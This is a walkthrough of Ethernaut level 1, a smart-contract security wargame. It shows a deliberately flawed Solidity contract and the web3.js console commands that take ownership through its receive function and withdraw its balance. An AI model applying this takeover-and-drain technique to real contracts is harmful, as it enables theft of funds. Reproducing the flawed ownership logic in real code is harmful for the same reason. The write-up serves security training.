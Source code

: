 # Level 1: Fallback

This is the level 1 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites

- Sending transactions using [web3.js](https://ethereum.stackexchange.com/questions/53094/sending-ether-via-contract-instance) to a contract and to a payable function
- [Conversion between units ether & wei](https://web3js.readthedocs.io/en/v1.5.2/web3-utils.html#towei)
- Solidity contract [fallback](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity/81995) function

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

and `contract` methods & `web3.js` functions injected into console.

We, the `player` address, have to somehow become `owner` of the contract & withdraw all amount from contract.

Key parts to notice are `contribute` function and `receive` fallback function of contract.

From the constructor, it can be seen that `owner`'s contribution is 1000 eth. One way to become `owner` is to send more than current `owner`'s contributed eth to `contribute` function to be owner. Let's check `owner`'s contributed eth using console:

```javascript
ownerAddr = await contract.owner();
await contract.contributions('0x9CB391dbcD447E645D6Cb55dE6ca23164130D008').then(v => v.toString())

// Output '1000000000000000000000'
```
But, that'd be too much eth! We have nowhere near it. 

Take a look at `receive` fallback function though. It also has code to change ownerships. According to what code is there, we can claim ownership if:

- Contract has a non-zero contribution from us (i.e. `player`).
- Then, we send the contract a non-zero eth amount.

`player` address has zero contribution to contract currently, so let's satisfy first condition by sending a **less than 0.001** eth (required acc. to code):

```javascript
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
```

Now we have a non-zero contribution that you can verify by:

```javascript
await contract.getContribution().then(v => v.toString())
```

And now send any non-zero amount of ether to contract:
```javascript
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')})
```

Boom! We claimed ownership of the contract!
You can verify that `owner` is same address as `player` by:

```javascript
await contract.owner()
// Output: Same as player address
```

And for the final blow, withdraw all of contract's balance:

```javascript
await contract.withdraw()
```

Done.
